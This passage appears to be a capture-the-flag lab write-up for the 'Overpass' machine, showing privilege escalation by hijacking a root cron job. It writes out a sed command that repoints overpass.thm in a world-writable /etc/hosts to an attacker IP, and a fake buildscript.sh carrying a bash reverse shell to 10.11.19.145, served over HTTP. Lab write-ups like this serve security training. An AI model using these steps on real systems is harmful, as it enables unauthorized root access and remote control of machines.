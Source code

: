 - It mentioned about automated build script

## Abuse Auto Build Script Cron Job


### Foothold

A crob job will execute a script from `overpass.thm`

```bash
james@overpass-prod:~$ cat /etc/crontab
...

# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Everyone have write access to the hosts file, which is really weird...

```bash
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

```bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
...
```

### Tamper Hosts File

Change the IP that's assigned to `overpass.thm` to attacker IP

```bash
james@overpass-prod:~$ echo -e $(sed 's/*overpass.thm/10.11.19.145 overpass.thm/g' /etc/hosts) > /etc/hosts
```

> Not using `-i` to modify the file to avoid error : `sed: couldn't open temporary file /etc/sedmOHc11: Permission denied`
{: .prompt-info }

```bash
james@overpass-prod:~$ nano /etc/hosts
```

### Reverse Shell As root

```bash
┌──(bravosec㉿fsociety)-[~/thm/overpass]
└─$ mkdir www && cd www

┌──(bravosec㉿fsociety)-[~/thm/overpass/www]
└─$ mkdir -p downloads/src/

┌──(bravosec㉿fsociety)-[~/thm/overpass/www]
└─$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.11.19.145/1111 0>&1' > downloads/src/buildscript.sh

┌──(bravosec㉿fsociety)-[~/thm/overpass/www]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
